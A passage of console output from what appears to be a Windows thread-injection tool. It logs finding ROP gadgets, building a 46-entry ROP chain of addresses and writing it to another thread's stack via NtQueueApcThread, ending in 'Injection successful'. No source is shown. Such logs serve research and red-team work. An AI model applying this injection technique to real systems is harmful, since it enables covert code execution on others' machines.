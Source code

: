 ```
    [41] -> 0x0
    [42] -> 0x0
    [43] -> 0x7ffb40366c9d
    [44] -> 0xc0a2eff568
    [45] -> 0x0
[*] Writing ROP chain to stack using NtQueueApcThread...
    Original RSP: 0xc0a2eff568
    New stack:    0xc0a2efd568
    ROP entries:  46
[+] Stack written successfully
[+] Injection successful

[*] Injecting into thread 118352
[*] Thread 118352 context:
    RSP: 0xc0a2fff7b8
    RIP: 0x7ffb404c6ee4
[*] Searching for ROP gadgets...
[+] All gadgets found successfully
[*] ROP chain built (46 entries):
    [0] -> 0x7ffb403610a7
    [1] -> 0x7ffb403babf3
    [2] -> 0x0
    [3] -> 0x7ffb3dbd35b2
    [4] -> 0x0
    [5] -> 0x7ffb40419bad
    [6] -> 0x0
    [7] -> 0x7ffb40363a08
    [8] -> 0x0
    [9] -> 0x7ffb3e261cef
    [10] -> 0x0
    [11] -> 0x0
    [12] -> 0x0
    [13] -> 0x0
    [14] -> 0x0
    [15] -> 0x7ffb3e29c4b0
    [16] -> 0x7ffb40361bc2
    [17] -> 0x0
    [18] -> 0x0
    [19] -> 0x0
    [20] -> 0x0
    [21] -> 0x0
    [22] -> 0x7ffb403babf3
    [23] -> 0xc0a2fff7b8
    [24] -> 0x7ffb3dbd35b2
    [25] -> 0xc0a2ffd920
    [26] -> 0x7ffb40419bad
    [27] -> 0x8
    [28] -> 0x7ffb40363a08
    [29] -> 0x0
    [30] -> 0x7ffb3e261cef
    [31] -> 0x0
    [32] -> 0x0
    [33] -> 0x0
    [34] -> 0x0
    [35] -> 0x0
    [36] -> 0x7ffb404c8980
    [37] -> 0x7ffb40361bc2
    [38] -> 0x0
    [39] -> 0x0
    [40] -> 0x0
    [41] -> 0x0
    [42] -> 0x0
    [43] -> 0x7ffb40366c9d
```